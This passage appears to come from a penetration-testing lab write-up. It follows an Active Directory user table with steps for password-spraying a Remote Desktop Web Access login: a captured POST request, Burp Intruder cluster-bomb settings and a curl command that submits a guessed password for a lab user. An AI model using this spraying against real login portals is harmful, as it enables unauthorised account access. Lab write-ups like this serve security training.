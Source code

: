 | Burrows    | Roger       | Sales           |
| Steele     | Charles     | Sales           |
| Wallace    | Juan        | Sales           |
| Lewis      | Donita      | Sales           |
| Santiago   | Juanita     | Sales           |
| Shepherd   | Wesley      | Sales           |
| Brown      | Steven      | Sales           |
| Wilson     | Johnny      | Sales           |
| May        | Juan        | Sales           |
+------------+-------------+-----------------+</p>

<p>dirbusting the other open http/s ports we find /rdweb access ie remote dsktop web access. 
If we can derive the correct username given the full names of the AD users we can test weak passwords with the rdweb login.</p>

<p>For this one can use a tool like burp intruder:
enter "LAB/USERNAME" and "PASSWORD" into the login field and capture with burp/zap proxy:</p>

<p>POST /RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx HTTP/1.1
Host: 10.7.12.11
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,<em>/</em>;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx
Cookie: TSWAFeatureCheckCookie=true; TSWAAuthClientSideCookie=Name=DOMAIN%5CUSERNAME&amp;MachineType=private&amp;WorkSpaceID=RDS02.lab.local
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 293</p>

<p>WorkSpaceID=RDS02.lab.local&amp;RDPCertificates=&amp;PublicModeTimeout=20&amp;PrivateModeTimeout=240&amp;WorkspaceFriendlyName=Work%2520Resources&amp;EventLogUploadAddress=&amp;RedirectorName=RDS02.lab.local&amp;ClaimsHint=&amp;ClaimsToken=&amp;isUtf8=1&amp;flags=4&amp;DomainUserName=LAB%5Cavasquez&amp;UserPass=PASSWORD&amp;MachineType=private</p>

<p>Intruder: 
-you can use the "cluster bomb" attack
-remove the placeholders save for the the two USERNAME fields and the the PASSWORD field
-we are relating payloads to a given placeholder here so use the userlist you created for placeholder1 and copy that lost for paload 2 and use a password list for payload 3
-make sure to Always Follow Redirection in the options tab</p>

<p>alternative to burp: script something yourself:
curl -k --referer ' https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx' -b 'TSWAFeatureCheckCookie=true; TSWAAuthClientSideCookie=Name=LAB%5Cavazquez&amp;MachineType=private&amp;WorkSpaceID=RDS02.lab.local' -d 'WorkSpaceID=RDS02.lab.local&amp;RDPCertificates=&amp;PublicModeTimeout=20&amp;PrivateModeTimeout=240&amp;WorkspaceFriendlyName=Work%2520Resources&amp;EventLogUploadAddress=&amp;RedirectorName=RDS02.lab.local&amp;ClaimsHint=&amp;ClaimsToken=&amp;isUtf8=1&amp;flags=4&amp;DomainUserName=LAB%5Cavasquez&amp;UserPass=Spring2017!&amp;MachineType=private' 'https://10.7.12.11/RDWeb/Pages/en-US/login.aspx?ReturnUrl=%2FRDWeb%2FPages%2Fen-US%2FDefault.aspx'</p>
